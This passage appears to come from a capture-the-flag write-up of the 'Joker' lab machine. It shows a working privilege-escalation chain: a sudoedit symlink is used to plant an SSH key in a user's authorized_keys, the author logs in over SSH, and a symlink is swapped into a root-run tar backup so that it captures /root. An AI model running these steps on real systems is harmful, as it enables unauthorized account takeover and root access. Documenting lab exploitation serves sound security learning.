 ```
ln -s /home/alekos/.ssh/authorized_keys layout.html
sudoedit -u alekos /var/www/testing/yolo/layout.html

copy paste joker_alekos_rsa.pub
save
```

## ssh as alekos
```
# ssh alekos@10.10.10.21 -i joker_alekos_rsa
The authenticity of host '10.10.10.21 (10.10.10.21)' can't be established.
ECDSA key fingerprint is SHA256:1yj4blzJwO5TYIZYFB3HMwXEqeflHc2iF1Idp3lZ94k.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.21' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Sat May 20 16:38:08 2017 from 10.10.13.210
alekos@joker:~$ 

$ ls
backup  development  user.txt

ls -al ./backup:
total 11184
drwxrwx--- 2 root   alekos 20480 Sep 21 17:25 .
drwxr-xr-x 7 alekos alekos  4096 May 19  2017 ..
-rw-r----- 1 root   alekos 40960 Dec 24  2017 dev-1514134201.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 24  2017 dev-1514134501.tar.gz
```

Every 5 min, a root process create a backup of development in backup.
The shell is saved in the tar.gz
```
alekos@joker:~/backup$ cat backup.sh 
#!/bin/sh
FILENAME="dev-$(date +%s).tar.gz"
cd /home/alekos/development;
tar cf /home/alekos/backup/$FILENAME *;
chown root:alekos /home/alekos/backup/$FILENAME;
chmod 640 /home/alekos/backup/$FILENAME;

```

Create a symlink to /root and wait for it to be backuped...
```
$ mv development/ development.bak
$ ln -s root development
```
WAit 5 min
```
$ tar xvf dev-1569076801.tar.gz
backup.sh
root.txt



alekos@joker:~/backup$ cat root.txt 
```